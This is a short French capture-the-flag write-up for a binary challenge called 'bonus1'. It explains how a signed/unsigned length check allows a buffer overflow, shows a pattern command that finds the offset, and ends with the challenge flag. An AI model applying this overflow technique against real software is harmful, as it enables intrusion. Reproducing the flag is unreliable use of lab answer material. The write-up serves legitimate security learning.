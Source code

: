 1. Le programme demande un nombre n et un autre paramètre dont n caractères seront copies dans un buffer de 60 bytes.
2. Mais le programme vérifie si `(int)n < 9`, et copie `(size_t)n` bytes. On peut donc utiliser un nombre négatif afin de copier plus de 60 bytes.
   ```
   0xffffffff (uint)(=4294967295) (int)(and = -1)
   0xffffffff / 4 = 0x3fffffff = 1073741823
   ```
3. On trouve l'offset
   ```
   (0xffffffff - 200) / 4 = 0x3fffffcd = 1073741773

   ./bonus1 -1073741773 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'
   ```
   => offset de 56
4. On écrit donc l'exploit

> Flag: 579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
